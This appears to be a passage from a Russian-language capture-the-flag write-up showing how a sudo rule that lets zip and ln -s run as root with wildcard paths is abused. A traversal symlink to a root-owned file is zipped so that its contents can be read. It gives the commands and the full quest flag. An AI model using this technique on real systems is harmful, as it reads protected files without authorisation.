 ```
Matching Defaults entries for mikki on cffe4ac50677:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mikki may run the following commands on cffe4ac50677:
    (ALL) NOPASSWD: /usr/bin/zip data.zip /var/www/*output, /usr/bin/ln -s /var/www/* output
```

Нашему пользователю без ввода пароля разрешено от sudo, выполнить две команды:
- /usr/bin/zip data.zip /var/www/*output
- /usr/bin/ln -s /var/www/* output

В них присутвует регулярное выражение в виде ```*```, поэтому отркрывается возможность прочитать любой файл от рута. Пейлод будет выглядеть так:

```
# создаем симлинк на /root/last_part
sudo /usr/bin/ln -s /var/www/../../root/last_part output

# упаковываем симлинк в zip архиве
sudo /usr/bin/zip data.zip /var/www/../../tmp/pwned/output

# извлекаем данные из архива
unzip -: data.zip 

# читаем флаг
cat tmp/pwned/output 
_S1MPS0NS_1N_4_L0NG_71M3}
```

![](img/img23.png)

В чем особенность повышения привилегий с симлинками, мы можем выполнить создание симлинка с правами рута, затем выполнить упаковку в ```zip``` архив **без** флага ```--symlink```, тем самым утилита ```zip``` (если выполнить трасировку) прочитает содержимое на которое указывает симлинк и скопирует его внуторь архива. Поэтому по сути,через утилиту **zip** мы выполняем копирование с правми рута.

Вторая часть флага: ```_S1MPS0NS_1N_4_L0NG_71M3}```

Весь флаг квеста: ```CODEBY{I_H4V3N'7_S33N_7H3_S1MPS0NS_1N_4_L0NG_71M3}```

